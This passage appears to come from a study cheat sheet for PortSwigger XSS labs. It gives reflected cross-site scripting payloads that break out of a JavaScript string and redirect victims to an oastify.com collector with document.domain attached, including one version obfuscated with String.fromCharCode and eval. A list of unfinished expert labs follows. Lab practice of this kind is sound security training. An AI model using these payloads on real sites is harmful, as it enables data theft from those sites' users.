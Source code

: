     * Encode the payload and use it within the String.fromCharCode() function.

```javascript
\'; document.location =  "https://3imrz0nwbl.oastify.com/?x=" + document.domain + "END" ; //
```

* Final Payload(s):

```javascript
\'; eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,99,118,98,48,115,54,111,118,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)) ; //
```

* This payload executes the document.domain:
  
```javascript
\'; var x = String.fromCharCode(100,111,99,117,109,101,110,116,46,100,111,109,97,105,110) ; alert(eval(x)) ; //
```



<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* LAB EXPERT Reflected XSS in a JavaScript URL with some characters blocked

* LAB EXPERT Reflected XSS with AngularJS sandbox escape without strings

* LAB EXPERT Reflected XSS with AngularJS sandbox escape and CSP

* LAB EXPERT Reflected XSS protected by very strict CSP, with dangling markup attack

* LAB EXPERT Reflected XSS protected by CSP, with CSP bypass
